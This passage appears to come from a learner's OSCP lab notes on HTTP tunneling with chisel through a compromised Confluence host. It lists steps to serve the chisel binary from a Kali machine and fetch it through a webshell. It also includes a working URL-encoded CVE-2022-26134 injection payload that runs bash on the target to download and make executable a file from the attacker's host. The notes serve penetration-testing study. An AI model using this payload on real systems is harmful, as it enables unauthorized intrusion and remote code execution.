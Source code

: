 Once the data arrives *to the chisel client*, the client will *decapsulate it* and then forward it to the *destination server* (which is `PGDATABASE01`).
![](../oscp-pics/HTTP-tunneling-2.png)
On our Kali machine, the *chisel server* is listening on port `1080` using SOCKS. All traffic to that port will be *passed through the HTTP tunnel* to the *chisel client* on `CONFLUENCE01`. To the DPI/firewall appliance, all of our traffic through chisel will be *HTTP formatted*. So, regardless of the content, the firewall will allow it to pass through the open `8090` port  on `CONFLUENCE01` .
### Steps
In this scenario, `CONFLUENCE01` is Linux based, so we can use the same binary on both machines to create the connection. We still just have a webshell on `CON01`, so to get the binary onto it, we need to first serve it from our Kali machine, and then send a command through our webshell to fetch it. 

The entire process will look something like this:
1. download the chisel binary from the GitHub onto Kali machine
2. serve the chisel binary using Apache server (Kali machine)
3. use webshell on `CON01` to fetch the binary from Apache server on Kali machine
4. start *chisel server on Kali machine*
5. use webshell to execute *chisel client* on `CON01`
	1. client needs to connect back to our chisel server to create HTTP tunnel
6. use the chisel HTTP tunnel for *hax*
7. profit
## Serve the Binary
(Once we've already downloaded the [right chisel binary](https://github.com/jpillora/chisel/releases) onto our Kali machine) we have to set up a web server to serve it so we can fetch it from `CON01`. 
### Apache web server
First we need to copy the binary to the Apache *web root* on our  kali machine:
```bash
kali@kali:~$ sudo cp $(which chisel) /var/www/html/
```
### Start web server
Now we can start our Apache web server using `systemctl`:
```bash
kali@kali:~$ sudo systemctl start apache2
[sudo] password for kali: 

kali@kali:~$
```
## Fetch the Binary
Now that we're serving the chisel binary from our machine (using the Apache web server), we need to craft a payload for our web shell *which fetches it*. We can use `wget`:
```bash
wget 192.168.118.4/chisel -O /tmp/chisel && chmod +x /tmp/chisel
```
This command also *ensures the binary is executable* via `chmod`.
### Format for cURL
Assume our webshell injection needs to be [character encoded](../web-apps/character-encoding.md) (based off  [_CVE-2022-26134_](https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html) which we're leveraging to get the web-shell on `CONFLUENCE01`). Our curl command should look like this after encoding the `wget` payload:
```bash
kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.118.4/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/

kali@kali:~$ 
```